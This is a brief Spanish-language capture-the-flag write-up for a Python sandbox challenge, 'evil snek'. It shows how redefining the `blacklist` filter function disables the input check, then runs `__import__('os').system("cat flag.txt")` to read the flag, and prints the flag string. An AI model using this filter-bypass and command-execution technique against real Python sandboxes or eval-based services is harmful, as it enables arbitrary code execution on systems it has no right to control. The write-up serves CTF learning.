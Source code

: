 # evil snek

Si hacemos `exec("blacklist=function")` suplantamos a `blacklist` en `if not blacklist(inp):`

```py
> blacklist=callable
> __import__('os').system("cat flag.txt")
wwf{s1lly_sn3k_1_just_0verwr1t3_y0ur_funct10n}
>
```

`wwf{s1lly_sn3k_1_just_0verwr1t3_y0ur_funct10n}`
